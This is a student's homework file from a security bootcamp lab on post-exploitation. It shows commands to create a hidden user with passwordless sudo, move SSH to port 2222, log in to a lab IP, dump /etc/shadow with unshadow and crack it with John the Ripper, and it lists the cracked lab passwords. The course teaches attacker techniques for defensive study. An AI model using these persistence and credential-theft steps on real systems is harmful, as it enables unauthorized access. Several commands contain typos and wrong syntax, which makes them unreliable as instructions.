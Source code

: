 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    -useradd -rMo -u 600 sysd

2. Give your secret user a password: 
    -passwd sysd`

3. Give your secret user a system UID < 1000:
    -usermod -u 600 sysd

4. Give your secret user the same GID:
   - groupmod -g 600 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  visudo sysd ALL=(ALL:ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:

    ```bash
    cat /etc/sudoers | grep -i sysd | awk '{ print $3 }'
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    sudo nano /etc/shh/sshd_config
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh.service

2. Exit the `root` account:
    - `exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

 unshadow /etc/passwd/etc/shadow > passwords.txt
johnpasswords.txt
--- computer (stallman)
freedom (babbage)
trustno1 (mitnik)
dragon (lovelace)
lakers (turning)
passw0rd (sysadmin)
Goodluck! (student)
p4ssw0rd  (sysd)

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.


